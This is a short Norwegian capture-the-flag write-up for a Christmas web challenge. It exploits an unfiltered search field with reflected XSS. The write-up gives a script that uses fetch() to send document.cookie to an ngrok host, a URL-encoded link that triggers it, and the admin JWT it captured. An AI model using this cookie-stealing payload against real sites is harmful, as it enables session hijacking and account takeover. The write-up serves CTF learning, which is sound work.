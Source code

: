 Her lærer jeg to ting, både at teksten jeg skriver inn reflekteres ufiltrert ut igjen, og jeg får opp et bilde som hinter til at det er flere sider på nettsiden:

![page 2](nissekjeks/images/image.png)


### Løsning

Jeg utnytter at siden for å søke etter bilder viser søketeksten på skjermen uten å filtrere den. Derfor bruker jeg reflektert XSS til å lage en lenke som stjeler cookiene til den som besøker siden.

XSS script (kan bruke ngrok, webhook, burp, osv.):

```html
<script>fetch("https://b73ab-8c65ac-75acf.ngrok-free.app/?"+document.cookie);</script>
```

URL julenissen kan besøke for å trigge scriptet:

```
https://_usercode_-nissekjeks.julew.tf/search?query=%3Cscript%3Efetch(%22https%3A%2F%2Fb73ab-8c65ac-75acf.ngrok-free.app%2F%3F%22%2Bdocument.cookie)%3B%3C%2Fscript%3E
```

Jeg får nå tilsendt julenissens (admins) cookies:

`access_token_cookie`: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNDk2MzM0NSwianRpIjoiOThmOWIzOTYtMzY1Yi00NjliLTlkMTktZDA4YTMyODUyMjVjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzM0OTYzMzQ1LCJleHAiOjE3MzQ5NjQyNDV9.s_7d8yAnbJCquEJAQk-ZFz-hWrCpagih2kUVxDjLWvc`

Jeg kan nå bruke denne når jeg besøker `https://_usercode_-nissekjeks.julew.tf/flag` for å hente ut flagget.

<details><summary>Flagg</summary></details>
